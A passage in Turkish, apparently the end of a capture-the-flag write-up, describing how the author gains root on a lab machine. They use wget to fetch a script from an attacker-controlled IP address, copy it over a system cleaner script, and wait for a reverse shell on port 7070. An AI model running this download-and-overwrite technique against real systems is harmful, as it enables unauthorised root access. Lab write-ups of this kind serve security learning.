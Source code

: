 `cd	/tmp`

`wget	http://10.5.40.154/py.py`

`cp	py.py	/lib/log/cleaner.py`

bu	şekilde	indirdiğim	kodu	cleaner.py	'nin	içine	attım	kontrol	edelim	gelmiş	mi

![kd]({{ '/assets/images/imagesbt/catcl.png' | relative_url }})

Evet	geldi	şimdi	kendi	makinemizden	7070	portunu	dinlemeye	açıyoruz	ve	2	dk	içinde	bağlantının
gelmesini	bekliyoruz.

![root]({{ '/assets/images/imagesbt/root.png' | relative_url }})


Bu	kadar	artık	tüm	yetkiler	bizde!

NOTE:	Hatırlarsanız	ki	nmap	taramasının	sonucunda	ftp,	ssh	portu	da	açıktı	aynı	zamanda
aralarda	belirttiğim	farklı	bulgularda	vardı	onları	kullanmadım	elbet	root	olmak	için	farklı	bir	yöntem
daha	vardır.
